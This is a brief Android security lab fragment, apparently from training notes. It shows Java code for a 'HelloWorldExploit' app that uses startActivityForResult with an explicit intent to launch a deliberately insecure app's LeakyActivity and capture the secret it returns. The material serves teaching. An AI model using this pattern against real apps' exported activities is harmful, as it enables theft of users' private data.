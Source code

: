 ![](.gitbook/assets/image-20240111165221915.png)



Create the application `#2`.

- Opening the lab source code of the `HelloWorldExploit` app

  - launch `LeakyActivity` using `startActivityForResult()`

  - override the `onActivityResult` to extract the result `LeakActivity` returns

```java
static final int PICK_REQUEST = 1;  // The request code

@Override
protected void onCreate(Bundle savedInstanceState) {
	super.onCreate(savedInstanceState);

	Intent pickSecretIntent = new Intent();
	pickSecretIntent.setComponent(new ComponentName("com.elearnsecurity.insecureactivities", "com.elearnsecurity.insecureactivities.LeakyActivity"));
	startActivityForResult(pickSecretIntent, PICK_REQUEST);

	setContentView(R.layout.activity_hello_world);
}
```
